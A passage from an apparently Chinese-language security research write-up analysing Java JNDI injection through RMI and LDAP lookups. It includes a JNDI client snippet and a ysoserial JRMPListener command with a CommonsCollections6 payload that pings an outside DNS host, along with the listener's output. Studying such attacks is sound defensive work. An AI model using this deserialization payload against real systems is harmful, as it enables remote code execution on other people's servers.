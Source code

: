 JNDIRMIClient-->

```java
import javax.naming.InitialContext;

public class JNDIRMIClient
{
    public static void main( String[] args ) throws Exception
    {
        String uri = "rmi://localhost:1099/referenceWrapper";
        InitialContext initialContext = new InitialContext();
        IRemoteObject remoteObject = (IRemoteObject) initialContext.lookup(uri);
    }
}
```

仍是去打一个 ysoserial.exploit.JRMPListener -->

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 "ping 6y7d5.cxsys.spacestabs.top"
* Opening JRMP listener on 9999
Have connection from /127.0.0.1:64829
Reading message...
Sending return with payload for obj [0:0:0, 0]
Closing connection
```

运行客户端代码，成功触发 DNS 请求，如下-->

![alt text](image-48.png)

前面的那两个 RMI 的攻击点都比这里简单易懂，且这个攻击点也没有去绕过什么限制 🚫，个人认为没有很大的实际意义，也是调试时偶然发现，仅供学习。

## 漏网之鱼 - JNDI & LDAP

### 漏洞分析

已经跟出经验了，举一反三，画个图总结一下-->

![alt text](24.png)

要找 JNDI 注入，关键就是要找到 decodeObject 方法，不班门弄斧了，LDAP 的 decodeObject 方法如下-->

![alt text](image-384.png)

跟进去可以发现代码逻辑只是根据不同的条件去返回不同对象，并没有像 RMI 那样将通过 Reference 对象去加载真正的对象的代码逻辑写在其中，这点是不同的，如下-->

![alt text](image-385.png)

它的 Sink 在接收返回值代码的下方处，如下-->

![alt text](image-386.png)

`DirectoryManager.getObjectInstance()`方法的代码逻辑与 RMI 的`NamingManager.getObjectInstance()`方法一致，存在远程类加载的攻击面，不再赘述。所以现在问题的关键在于 decodeObject 方法中是否做了过滤，更准确的来说，decodeObject 方法中第三个 if 是否做了过滤，是没有的，如下-->
